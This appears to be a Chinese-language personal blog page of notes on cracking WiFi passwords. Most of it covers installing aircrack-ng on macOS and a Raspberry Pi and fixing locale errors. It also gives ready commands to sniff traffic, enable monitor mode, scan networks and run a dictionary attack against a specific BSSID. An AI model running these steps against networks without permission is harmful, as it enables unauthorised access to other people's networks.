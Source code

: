 ```yaml
---
title:  wifi密码破解
heading: 
date: 2021-11-23T13:37:23.761Z
categories: ["code"]
tags: 
description: wifi-crack
---
```


关于破解的方法和思路参考[渗透测试之构建高效WiFi破解字典](https://www.anquanke.com/post/id/219315)

常见工具：  

- [bully](https://www.kali.org/tools/bully/)
- [reaver](https://www.kali.org/tools/reaver/)
- [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)


## mac 上安装 aircrack-ng

参考程[aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)教安装
``` 
brew install autoconf automake libtool openssl shtool pkg-config hwloc pcre sqlite3 libpcap cmocka
```
下载[aircrack-ng.tar.gz](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)

解压后安装
```bash
 cd aircrack-ng-1.6
 autoreconf -i
 ./configure --with-experimental
 gmake
 gmake install
 ldconfig
```


```
airport -s
sudo rm -rf /tmp/airport*
sudo airport en0 sniff 3
ls -lh /tmp/airport*
aircrack-ng -w top100.txt -M 100 -f 80 -1 -a 2 -b 0c:5c:b5:c8:04:eb /tmp/airportSniff*.cap
```

## 树莓派上安装 aircrack-ng

查看网卡是否支持监听模式
```bash
# 查看树莓派型号
cat /proc/device-tree/model
# Raspberry Pi 3 Model B Plus Rev 1.3

# 查看 Supported interface modes
# 是否有 monitor 模式
iw list | grep "Supported interface modes" -A 7
# 没有 monitor 则不支持，后面就不用看了
```

mac shell ssh 连接树莓派[中文乱码](https://monsoir.github.io/Notes/RaspberryPie/raspberry-ssh-locale.html)

查看配置
···
```bash
locale
# 输出
locale: Cannot set LC_CTYPE to default locale: No such file or directory
locale: Cannot set LC_MESSAGES to default locale: No such file or directory
locale: Cannot set LC_ALL to default locale: No such file or directory
cat /etc/default/locale
```


修改配置[locale](https://askubuntu.com/questions/599808/cannot-set-lc-ctype-to-default-locale-no-such-file-or-directory)
```bash
grep "^[^#]" /etc/ssh/sshd_config
sudo vi /etc/ssh/sshd_config
# 注释掉以下行
# AcceptEnv LANG LC_*
systemctl restart sshd
echo "export LC_ALL=en_US.UTF-8" >> /etc/.bash_profile
echo "export LANG=en_US.UTF-8" >> /etc/.bash_profile

grep "^[^#]" /etc/locale.gen
# 注释以下行
# en_US.UTF-8 UTF-8
sudo locale-gen
# 查看是否正常
locale
# 或者重新配置默认语音
# sudo dpkg-reconfigure locales
```

安装依赖
```bash
sudo apt-get update
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion ethtool
sudo apt-get install -y libnl-3-200 libnl-3-dev libnl-genl-3-dev libnl-genl-3-200
```

通过编译的方式[安装](https://www.aircrack-ng.org/doku.php?id=install_aircrack#compiling_and_installing) 
```bash
wget https://download.aircrack-ng.org/aircrack-ng-1.6.tar.gz
tar -zxvf aircrack-ng-1.6.tar.gz
cd aircrack-ng-1.6
autoreconf -i
./configure --with-experimental
make
make install
ldconfig
```

使用Aircrack-ng工具，依次输入以下命令  

```bash
# 杀死占用网卡的进程  
# 如果为空则证明没占用，有进程则需要手动关闭
1.airmon-ng check kill  
查看无线网卡状态
2.ifconfig/iwconfig -a
加载无线网卡，已加载则忽略
3.ifconfig wlan0 up
激活网卡
4.airmon-ng start wlan0
探测无线网络
5.airodump-ng mon0
```

无法关闭 avahi-daemon
```
# 提示
# stopping avahi-daemon.service but it can still be activated by
# 移出
apt-get remove avahi-daemon
```

无法设置监听模式
```bash
iwconfig wlan0 mode monitor
# out 
Error for wireless request "Set Mode" (8B06) :
    SET failed on device wlan0 ; Operation not supported
```

参考  
- [WiFi 安全与攻击案例分析](https://paper.seebug.org/1159/)
- [cracking-wifi-at-scale-with-one-simple-trick](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick)
- [wifi-attack-tools](https://linuxhint.com/wireless-attack-tools-kali-linux/)
- [wifi密码破解方法记录](https://www.jianshu.com/p/44d54b5369d8)
- [Mac上使用aircrack-ng破解Wi-Fi密码](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)
- [近源渗透，超低成本打造自定义专属钓鱼WIFI](https://www.freebuf.com/articles/wireless/272733.html)
- [无线局域网攻防之Wi-Fi破解](https://www.freebuf.com/articles/wireless/280568.html)
- [知道创宇研发技能表v3](https://blog.knownsec.com/Knownsec_RD_Checklist/index.html)